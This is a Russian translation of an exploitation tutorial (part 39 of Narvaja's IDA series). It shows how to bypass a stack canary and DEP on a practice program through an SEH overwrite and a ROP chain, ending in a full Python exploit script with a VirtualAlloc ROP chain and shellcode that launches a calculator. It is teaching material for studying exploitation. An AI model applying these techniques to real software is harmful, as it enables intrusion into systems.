 # Часть 39

 У нас остался последний случай эксплуатации переполнения стека с защитами **CANARY** и **DEP** для перезаписи **SEH**.  
  
![1.png](https://wasm.in/attachments/1-png.2967/)   
  
Мы переименовываем имя исполняемого файла и присоединяемся к нему с помощью **IDA**, чтобы увидеть, что случиться.  
  
![2.png](https://wasm.in/attachments/2-png.2968/)   
  
Так же как и раньше, программа закрывается, когда стек заканчивается. Давайте посмотрим её **SEH**,  
  
![3.png](https://wasm.in/attachments/3-png.2969/)   
  
Как и в предыдущем случае, программа перезаписывает указатель на гаджет **POP - POP - RET**. Давайте установим здесь **BP**.  
  
![4.png](https://wasm.in/attachments/4-png.2970/)   
  
Я нажимаю клавишу **F9** и принимаю исключение.  
  
![5.png](https://wasm.in/attachments/5-png.2971/)   
  
Здесь, как и всегда стек находится на третьей позиции. Есть указатель на поле **NEXT**.  
  
![6.png](https://wasm.in/attachments/6-png.2972/)   
  
Если я исполню инструкции с помощью клавиши **F7**.  
  
![7.png](https://wasm.in/attachments/7-png.2973/)   
  
Программа перейдёт на выполнение в стек. Эта инструкция **JMP** состоит из байтов **EB** **06** **90** **90** из поля **NEXT**, но когда я хочу исполнить эту инструкцию, я получаю ошибку.  
  
![8.png](https://wasm.in/attachments/8-png.2974/)   
  
Стек не может быть выполнен, потому что здесь есть защита **DEP**. Нам необходимо запустить **ROP**.  
  
Проблема заключается в том, что стек переместился для выполнения **ROP** и наши данные не указаны регистром **ESP** для продолжения выполнения **ROP**. Поэтому, в этом случае вместо гаджета **POP** - **POP** - **RET** нам нужен гаджет, который исправляет стек к моменту выполнения инструкции **RET** этого **ГАДЖЕТ.** Он берет один из моих адресов стека для того, чтобы вернуть управление, и продолжает выполнение **ROP**.  
  
Мы видели, что в моем случае, перед выполнением гаджета **POP – POP - RET,** регистр **ESP** равен **0xAFEF98**  
  
![9.png](https://wasm.in/attachments/9-png.2975/)   
  
И я буду искать этот адрес в стеке где начинаются мои данные.  
  
Я установил этот адрес, чтобы найти непосредственное значение **0x41414141**.  
  
![10.png](https://wasm.in/attachments/10-png.2976/)   
  
Мы видим, что данные начинается по адресу **0xAFF5A8**. Теперь мы можем рассчитать расстояние. Данные находятся ниже **ESP**.  
  
**HEX\(0xAFF5A8 - 0xAFEF98\)**  
  
![11.png](https://wasm.in/attachments/11-png.2977/)   
  
Таким образом, расстояние между **ESP** и началом моих данных равно **0x610** байт. Это означает, что если я найду гаджет  
  
**ADD ESP, XXXX - RET**  
  
Если значение **XXXX** больше чем **0x610** байт, когда он находится внутри диапазона стека, **ESP** будет перемещаться туда, где мои данные будут продолжать выполнение **ROP**.  
  
Давайте посмотрим гаджеты **MYPEPE**.  
  
![12.png](https://wasm.in/attachments/12-png.2978/)   
  
Я вижу, что программа добавляет ещё **0x30** байт к **ESP**. Код не достигнет моего фруктового шеллкода.  
  
К сожалению, у программы нет гаджета или, по крайней мере, я не нашел такой гаджет. Даже используя утилиту **AGAFI** у меня ничего не получается. Программа приложена к туториалу для тех, кто хочет научиться ей пользоваться.  
  
![13.png](https://wasm.in/attachments/13-png.2979/)   
  
Я запускаю **GISNAP** на процессе остановленном после обработки исключения, например на первом **POP** гаджета **POP** - **POP** - **RET**, без каких-либо действий.  
  
Этот **GISNAP** будет делать дамп процесса. Затем я должен отредактировать файл **OBJECTIVE**.**TXT** программы **AGAFI** устанавливающей условие, которое мы хотим. В этом случае оно может быть таким.  
  
**ESP = \[ESP + 0x08\]**  
  
И мы можем настроить программу только для того, чтобы начать поиск с определенного исполняемого файла, в нашем случае это **MYPEPE**.**DLL**.  
  
Я комментирую в файле условие и диапазон, и пишу тот, который мне нужен.  
  
![14.png](https://wasm.in/attachments/14-png.2980/)   
  
Затем я запускаю **AGAFI** используя имя дампа, который я сделал раньше, и сохраняю его в ту же папку и с тем же именем.  
  
**AGAFI.EXE OBJECTIVE.TXT DUMPED.DMP PEPE.TXT**  
  
Программа нашла некоторые редкие гаджеты, но есть одна проблема.  
  
**----------------------------------------  
\[x\] VALID GADGET AT: 7801194E  
--&gt; MATHES: ESP = \[ESP + 0x8\]  
--&gt; STACK USED: N/A  
--&gt; PRESERVED REGISTERS:   
\*\*\* 7801194E: CLC  
\*\*\* 7801194F: POPA  
\*\*\* 78011950: JL 0x7801195A  
\*\*\* 7801195A: POP EBX  
\*\*\* 7801195B: LEAVE  
\*\*\* 7801195C: RET**  
  
Это то, что происходит после его запуска. **ESP** снова указывает на **SEH** и переходит назад на тот же гаджет и разрывается второй раз для значения регистра **EBP** **0x41414141**, которое помещается в регистр **ESP** в **LEAVE** - **RET**.  
  
Хорошо. Чтобы победить защиту и показать, как это сделать, я добавлю инструкцию **ADD** **ESP**, **XXXX** - **RET** в **MYPEPE**.  
  
![15.png](https://wasm.in/attachments/15-png.2981/)   
  
Мы будем использовать это как гаджет для перехода из **SEH**.  
  
![16.png](https://wasm.in/attachments/16-png.2982/)   
  
Давайте попробует перейти туда, где программа переставала работать, обработав исключение.  
  
![17.png](https://wasm.in/attachments/17-png.2983/)   
  
Мы видим, что после выполнения инструкции **ADD** **ESP**, **700** я готов продолжить выполнять наш **ROP**, а затем и сам шеллкод.  
  
Мы видим расстояние, на которое должен идти **ROP**. Сейчас я нахожусь по адресу **ESP = 0xEFF5C0**. Давайте посмотрим где начинаются мои данные.  
  
![18.png](https://wasm.in/attachments/18-png.2984/)   
  
Данные начинаются по адресу **0xEFF4D4**. Я могу сделать вычитание и увидеть нужное расстояние.  
  
![19.png](https://wasm.in/attachments/19-png.2985/)   
  
Я подготавливаю скрипт.  
  
  
**from** os **import** \*  
**import** struct  
**def** create\_rop\_chain\(\):  
\# rop chain generated with mona.py - [www.corelan.be](http://www.corelan.be/)  
rop\_gadgets = \[  
0x7801eb94, \# POP EBP \# RETN \[Mypepe.dll\]  
0x7801eb94, \# skip 4 bytes \[Mypepe.dll\]  
0x7801ee74, \# POP EBX \# RETN \[Mypepe.dll\]  
0x00000001, \# 0x00000001-&gt; ebx  
0x7802920e, \# POP EDX \# RETN \[Mypepe.dll\]  
0x00001000, \# 0x00001000-&gt; edx  
0x7800a849, \# POP ECX \# RETN \[Mypepe.dll\]  
0x00000040, \# 0x00000040-&gt; ecx  
0x78028756, \# POP EDI \# RETN \[Mypepe.dll\]  
0x7800b281, \# RETN \(ROP NOP\) \[Mypepe.dll\]  
0x78001492, \# POP ESI \# RETN \[Mypepe.dll\]  
0x780041ed, \# JMP \[EAX\] \[Mypepe.dll\]  
0x78013953, \# POP EAX \# RETN \[Mypepe.dll\]  
0x7802e030, \# ptr to &VirtualAlloc\(\) \[IAT Mypepe.dll\]  
0x78009791, \# PUSHAD \# ADD AL,80 \# RETN \[Mypepe.dll\]  
0x7800f7c1, \# ptr to 'push esp \# ret ' \[Mypepe.dll\]  
\]  
**return ''**.join\(struct.pack\(**'&lt;I'**, \_\) **for** \_ **in** rop\_gadgets\)  
  
shellcode =**"\xB8\x40\x50\x03\x78\xC7\x40\x04"**+ **"calc"** + **"\x83\xC0\x04\x50\x68\x24\x98\x01\x78\x59\xFF\xD1\x68\xAB\x39\x00\x78\xC3"**  
  
stdin,stdout = popen4\(**r'CANARY\_con\_DEP.exe -1'**\)  
**print "ATACHEA EL DEBUGGER Y APRETA ENTER\n"**  
raw\_input\(\)  
rop= create\_rop\_chain\(\)  
next=**"\x41\x41\x41\x41"**  
seh=struct.pack\(**"&lt;L"**, 0x7802d415\)  
data=\(0xec\) \* **"A"** + rop + shellcode  
  
fruta = data + \(\(844-len\(data\)\) \* **"A"** \)+ next + seh + 6000 \* **"A"** + **"\n"**  
  
**print** stdin  
**print "Escribe: "** + fruta  
stdin.write\(fruta\)  
**print** stdout.read\(40\)  
  
Мы видим, что скрипт использует тот же **ROP** что и раньше, и добавляет тот же шеллкод для **MYPEPE** и он работает.  
  
![20.png](https://wasm.in/attachments/20-png.2986/)   
  
Мы видим, что когда я прихожу в инструкцию **RET**, **ROP** остается в стеке с самого начала, чтобы продолжить исполнять **ROP** и выполнять шеллкод.  
  
![21.png](https://wasm.in/attachments/21-png.2987/)   
  
Теперь у нас запускается калькулятор.  
  
**Автор текста: Рикардо Нарваха** - **Ricardo** **Narvaja** \(**@ricnar456**\)  
Перевод на английский: **IvinsonCLS \(@IvinsonCLS\)**  
Перевод на русский с испанского+английского: **Яша\_Добрый\_Хакер\(Ростовский фанат Нарвахи\).**  
Перевод специально для форума системного и низкоуровневого программирования — **WASM.IN  
08.04.2018  
Версия 1.0**

